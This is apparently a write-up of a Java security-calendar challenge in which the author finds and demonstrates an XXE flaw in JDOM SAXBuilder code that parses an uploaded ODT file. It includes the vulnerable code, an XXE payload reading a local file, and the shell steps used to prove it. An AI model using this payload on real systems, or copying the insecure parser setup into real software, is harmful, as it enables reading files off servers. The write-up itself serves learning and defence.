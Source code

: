# RIPS Tech Day 1 - Candy Cane
https://www.ripstech.com/java-security-calendar-2019/

## Solution
XXE is possbile using the `SAXBuilder` class. The developer thinks they are doing it securely by using `sax.setFeature("http://javax.xml.XMLConstants/feature/secure-processing",true);` however is does not disable External Entity Expansion as can be see [here](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md#saxbuilder).

## The Process
In this challenge, we were presented with a code snipped at asked to identify what is wrong.

```java
import org.jdom2.Content;
import org.jdom2.Document;
import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;

public class ImportDocument {
  // This function extracts the text of an OpenOffice document
  public static String extractString() throws IOException, JDOMException {
    File initialFile = new File("uploaded_office_doc.odt");
    InputStream in = new FileInputStream(initialFile);
    final ZipInputStream zis = new ZipInputStream(in);
    ZipEntry entry;
    List<Content> content = null;
    while ((entry = zis.getNextEntry()) != null) {
      if (entry.getName().equals("content.xml")) {
        final SAXBuilder sax = new org.jdom2.input.SAXBuilder();
        sax.setFeature("http://javax.xml.XMLConstants/feature/secure-processing",true);
        Document doc = sax.build(zis);
        content = doc.getContent();
        zis.close();
        break;
      }
    }
    StringBuilder sb = new StringBuilder();
    if (content != null){
      for(Content item : content){
        sb.append(item.getValue());
      }
    }
    return sb.toString();
  }
}
```
### Manual Code Review
Looking at the code, we see it is reading in a file and processing it. Therefore we can deduct that the source of the vulnerability is the input file. Following the code, the input file is a Zip file format. Zip files have known vulnerabilities, one of the newest being [zip-slip](https://snyk.io/research/zip-slip-vulnerability). The trigger this vulnerability, we would need to write out the contents of the zip file, however further down we see this is not the case because the code is just building a string from the zip elements. Another potential here is a [zip bomb](https://en.wikipedia.org/wiki/Zip_bomb). In looking at this code, we see there are no protections against this type of attack which is detailed [here](https://wiki.sei.cmu.edu/confluence/display/java/IDS04-J.+Safely+extract+files+from+ZipInputStream). However, this is simply a DoS attack and not very exciting. So let the digging continue.

Furtherdown, we see that the code is looking for an XML file in the zip contents. Then then parses the XML file into a `SAXBuilder` object and parses the contents. XML has multiple vulnerabilities which could be affected which OWASP documents [here](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf). Looking over the options, we see XML bomb, very similar to zip bomb, multiple injection attacks against web targets and external entity expansion (xxe). Since we are only reading a local file, we will excluce the injection attacks as well as the XML bomb since it is the same as before. This leaves us with xxe. We see the developer invoking secure-processing as a parameter being set in the `SAXBuilder`. Looking at this [option](https://docs.oracle.com/javase/8/docs/api/javax/xml/XMLConstants.html#FEATURE_SECURE_PROCESSING) we see that it only prevents against XML bomb style attacks with no mention of xxe. Probably, xxe is the main vulnerability of interest in this code. To verify statically, we can research how to prevent xxe in `SAXBuilder` and see if there is special code which must be included. Doing some googling, we find that there is infact special parameters which must be set to [prevent](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md#saxbuilder) xxe. We can therefore deduce that the this code is vulnerable to xxe.

### Test Dynamically
With the static analysis, we've identified an issue but to prove what it can do, we must exploit it. In looking at the code, we see we would need to craft a malicious XML document then zip it into the odf file which the code is parsing. This part is easy enough. Locating xxe attack xml is easy enough with google, so we settled on:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT text ANY >
<!ENTITY xxe SYSTEM "file:///tmp/shadow" >]><foo>&xxe;</foo>
```

We set the payload to read from our tmp directory a file shadow. So we should probably populate the file with data.
```bash
echo "shadow file" > /tmp/shadow
```
We can now create the malcious odf file.
```bash
zip uploaded_office_doc.odt content.xml
```

Now all we need to do is to run the code. We discovered however there are some issues with the code with need add such as fixing imports, adding a main and printing out the document to prove we read from /tmp/shadow. In addition, we will need to get the dependencies; downloading the jdom2 jars. The updated source code is included in the repo (ImportDocument.java).

To get the jar files, we can simply download them to the source location:
```bash
wget http://www.jdom.org/dist/binary/jdom-2.0.6.zip

unzip jdom-2.0.6.zip
```

Once unzipped, we can compile the java code to a class file and then run it.
```bash
$ javac  -cp ./jdom-2.0.6.jar ImportDocument.java

$ java -classpath $(pwd):$(pwd)/jdom-2.0.6.jar ImportDocument
Running string extractor
shadow file

```

**We have now successfully exploited the vulnerability!**
